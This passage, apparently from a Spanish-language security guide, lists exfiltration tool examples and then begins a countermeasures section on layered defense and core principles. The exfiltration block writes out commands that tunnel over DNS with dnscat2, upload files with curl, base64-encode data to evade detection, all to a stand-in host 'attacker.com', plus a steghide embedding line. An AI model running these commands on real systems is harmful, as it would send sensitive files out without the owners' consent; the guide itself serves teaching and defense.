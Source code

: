 #### Herramientas de Exfiltración
```bash
# DNS tunneling with dnscat2
dnscat2-server attacker.com
dnscat2-client attacker.com

# HTTP tunneling
curl -X POST -F "file=@sensitive_data.txt" http://attacker.com/upload.php

# Base64 encoding for evasion
base64 sensitive_data.txt | curl -X POST -d @- http://attacker.com/data

# Steganography with steghide
steghide embed -cf image.jpg -ef secret.txt
```

---

## Contramedidas a Ataques

### Estrategias de Defensa en Profundidad

#### Modelo de Defensa en Capas
```
Defense in Depth Model:
┌─────────────────────────────────────────────────────┐
│                   Policies & Procedures             │
├─────────────────────────────────────────────────────┤
│                   Physical Security                  │
├─────────────────────────────────────────────────────┤
│                   Perimeter Defense                  │
├─────────────────────────────────────────────────────┤
│                   Network Security                   │
├─────────────────────────────────────────────────────┤
│                   Host-based Security                │
├─────────────────────────────────────────────────────┤
│                   Application Security               │
├─────────────────────────────────────────────────────┤
│                   Data Security                      │
└─────────────────────────────────────────────────────┘
```

#### Principios de Defensa
**Principios Fundamentales:**
- **Least Privilege**: Mínimos privilegios necesarios
- **Fail Secure**: Falla segura por defecto
- **Defense Diversity**: Múltiples tipos de controles
- **Simplicity**: Mantener soluciones simples
- **Complete Mediation**: Verificar todos los accesos

### Hardening de Sistemas
